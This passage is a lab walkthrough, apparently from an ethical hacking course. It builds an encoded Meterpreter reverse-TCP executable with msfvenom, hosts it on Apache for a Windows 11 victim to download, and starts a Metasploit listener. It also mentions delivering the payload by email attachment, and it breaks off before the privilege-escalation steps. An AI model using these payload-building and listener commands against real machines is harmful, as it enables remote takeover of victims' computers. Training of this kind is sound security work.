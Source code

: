 This task demonstrates the exploitation procedure on a weakly patched Windows 11 machine that allows you to gain access through a Meterpreter shell, and then employing privilege escalation techniques to attain administrative privileges to the machine through the Meterpreter shell.
Here, we will find misconfigurations in the target system using BeRoot and Seatbelt and further escalate privileges by exploiting client-side vulnerabilities.
In This task, we are using the Parrot Security (10.10.1.13) machine as the host machine and the Windows 11 (10.10.1.11) machine as the target machine.
	1. Click Parrot Security to switch to the Parrot Security machine, click the MATE Terminal icon at the top of the Desktop window to open a Terminal window.
	2. A Parrot Terminal window appears. In the terminal window, type sudo su and press Enter to run the programs as a root user.
	3. In the [sudo] password for attacker field, type toor as a password and press Enter.
The password that you type will not be visible.
	4. Now, type cd and press Enter to jump to the root directory.
	
	5. A Parrot Terminal window appears. In the terminal window, type msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -e x86/shikata_ga_nai -b "\x00" LHOST=10.10.1.13 -f exe > /home/attacker/Desktop/Exploit.exe and press Enter.
Here, the IP address of the host machine is 10.10.1.13 (here, this IP is the Parrot Security machine).
	
	6. The above command will create a malicious Windows executable file named “Exploit.exe,” which will be saved on the parrot /home/attacker/Desktop, as shown in the screenshot.
To navigate to home/attacker/Desktop, click Places from the top-section of the Desktop and click Home Folder from the drop-down options. The attacker window appears, click Desktop.
	
	7. Now, we need to share Exploit.exe with the victim machine. (In This task, we are using Windows 11 as the victim machine).
	8. In the previous lab, we already created a directory or shared folder (share) at the location (/var/www/html) with the required access permission. So, we will use the same directory or shared folder (share) to share Exploit.exe with the victim machine.
If you want to create a new directory to share the Exploit.exe file with the target machine and provide the permissions, use the below commands:
	• Type mkdir /var/www/html/share and press Enter to create a shared folder
	• Type chmod -R 755 /var/www/html/share and press Enter
	• Type chown -R www-data:www-data /var/www/html/share and press Enter
Here, we are sending the malicious payload through a shared directory; but in real-time, you can send it as an email attachment or through physical means such as a hard drive or pen drive.
	9. Type ls -la /var/www/html/ | grep share and press Enter.
	10. To copy the Exploit.exe file into the shared folder, type cp /home/attacker/Desktop/Exploit.exe /var/www/html/share/ and press Enter.
	11. Type service apache2 start and press Enter to start the Apache server.
	
	12. Now, type msfconsole in the terminal and press Enter to launch the Metasploit framework.
	13. Type use exploit/multi/handler and press Enter to handle exploits launched outside the framework.
	14. Now, issue the following commands in msfconsole:
	• Type set payload windows/meterpreter/reverse_tcp and press Enter to set a payload.
	• Type set LHOST 10.10.1.13 and press Enter to set the localhost.
	
	15. To start the handler, type the command exploit -j -z and press Enter.
	
	16. Now, click Windows 11 to switch to the Windows 11 machine. Click Ctrl+Alt+Delete, by default, Admin user profile is selected, type Pa$$w0rd in the Password field and press Enter to login.
	